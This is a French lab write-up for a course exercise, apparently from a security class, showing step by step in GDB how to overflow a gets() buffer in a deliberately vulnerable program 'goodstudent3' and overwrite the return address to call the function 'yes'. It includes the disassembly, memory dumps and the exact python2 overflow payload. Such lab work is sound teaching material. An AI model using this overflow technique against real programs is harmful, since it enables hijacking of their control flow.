 # Exercice 2

### Consignes
- Téléchargez le fichier goodstudent3.c depuis moodle
- Compilez-le avec la commande :
```bash
gcc -g -fno-stack-protector -o goodstudent3 goodstudent3.c
```
- Utilisez un buffer overflow pour exécuter la fonction yes. 

### Marche à suivre

- Compiler le fichier "goodstudent3.c"
```bash
gcc -g -fno-stack-protector -o goodstudent3 goodstudent3.c
```
- Ouvrir le fichier "goodstudent3" avec GDB
```bash
gdb goodstudent3
```
- Lancer le programme
```bash
run
```
- Entrer l'input test
```bash
test
```
- Disassembler check
```bash
disass check
```
```bash
Dump of assembler code for function check:
   0x0000555555555195 <+0>:     push   %rbp
   0x0000555555555196 <+1>:     mov    %rsp,%rbp
   0x0000555555555199 <+4>:     sub    $0x20,%rsp
   0x000055555555519d <+8>:     lea    -0x20(%rbp),%rax
   0x00005555555551a1 <+12>:    mov    %rax,%rdi
   0x00005555555551a4 <+15>:    mov    $0x0,%eax
   0x00005555555551a9 <+20>:    call   0x555555555060 <gets@plt>
   0x00005555555551ae <+25>:    lea    -0x20(%rbp),%rax
   0x00005555555551b2 <+29>:    lea    0xe63(%rip),%rdx        # 0x55555555601c
   0x00005555555551b9 <+36>:    mov    %rdx,%rsi
   0x00005555555551bc <+39>:    mov    %rax,%rdi
   0x00005555555551bf <+42>:    call   0x555555555030 <strcasecmp@plt>
   0x00005555555551c4 <+47>:    leave
   0x00005555555551c5 <+48>:    ret
End of assembler dump.
```
- Breakpoint à l'adresse de gets
```bash
break *0x00005555555551a9
```
- Breakpoint à l'adresse de lea
```bash
break *0x00005555555551ae
```
- Lancer le programme
```bash
run
```
- Afficher les infos de la frame
```bash
info frame
```
```bash
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x5555555551a9 in check (goodstudent3.c:17); saved rip = 0x5555555551f3
 called by frame at 0x7fffffffdda0
 source language c.
 Arglist at 0x7fffffffdd70, args: 
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```
- Afficher le contenu de buffer
```bash
x/8xg buffer
```
```bash
0x7fffffffdd50: 0x64757473646f6f67      0x4c4f430033746e65
0x7fffffffdd60: 0x00007fffffffdea8      0x00007ffff7ffe2d0
0x7fffffffdd70: 0x00007fffffffdd90      0x00005555555551f3
0x7fffffffdd80: 0x00007fffffffdea8      0x0000000100000000
```
- Continue
```bash
continue
```
- Lancer le programme avec input python
```bash
run <<< $(python2 -c "print 'A'*40 + '\x69\x51\x55\x55\x55\x55\x00\x00'")
```
- Afficher le contenu de rsp
```bash
x/8xg $rsp
```
```bash
0x7fffffffdd50: 0x64757473646f6f67      0x4c4f430033746e65
0x7fffffffdd60: 0x00007fffffffdea8      0x00007ffff7ffe2d0
0x7fffffffdd70: 0x00007fffffffdd90      0x00005555555551f3
0x7fffffffdd80: 0x00007fffffffdea8      0x0000000100000000
```
- Continue
```bash
continue
```
- Afficher le contenu de rsp
```bash
x/8xg $rsp
```
```bash
0x7fffffffdd50: 0x4141414141414141      0x4141414141414141
0x7fffffffdd60: 0x4141414141414141      0x4141414141414141
0x7fffffffdd70: 0x4141414141414141      0x0000555555555169
0x7fffffffdd80: 0x00007fffffffde00      0x0000000100000000
```
- Continue
```bash
continue
```

### Résultat
```bash
Yes you are!
```